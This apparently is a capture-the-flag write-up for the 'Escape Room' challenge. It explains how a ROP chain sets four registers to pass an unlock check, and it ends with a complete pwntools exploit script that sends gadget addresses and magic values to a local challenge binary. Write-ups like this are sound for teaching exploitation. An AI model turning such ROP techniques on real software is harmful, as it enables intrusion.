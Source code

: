 # Escape Room 

This challenge tells us that we need to unlock the lock inorder to get the key. And the lock can be unlocked by using the four registers eax, ebx, edi and esi.

![](../images/er_1.png?raw=true)


Looking at the source code, it seems that the **unlock combination lock function** will be automatically called for us after the **vulnerable** function which takes our payload.

![](../images/er_1.5.png?raw=true)


In the **unlock** function we observe that the local variables need to have certain values inorder to pass the check.
 
![](../images/er_2.png)


Above that we can see these local variables are assigned values by moving register values in them.

![](../images/er_3.png)


So, it seems we need to push our values into the registers in order to get the key.


## ROP chain
We can build our ROP chain by retrieving our gadgets.

![](../images/er_4.png)
![](../images/er_5.png)
![](../images/er_4.5.png)
![](../images/er_6.png)


## Exploit
The final code is:
```python
from pwn import *


# Our target
target = './escape-room'
e = context.binary = ELF(target,checksec=True)
#context.log_level='debug'


io = process(target)


print(io.recv())
print("Sending the Payload NOW")


eax = 0xf79e8588
ebx = 0x08049584
edi = 0xf5ccbfef
esi = 0xf5cb9c1b



payload = ''

payload += p32(eax)
payload += p32(0xdeadbeef)
payload += p32(ebx)
payload += p32(0xcafebabe)
payload += p32(edi)
payload += p32(0x0ece5612)
payload += p32(esi)
payload += p32(0x12345678)

io.sendline(payload)
print(io.recv())
print(io.recv())
io.close()
```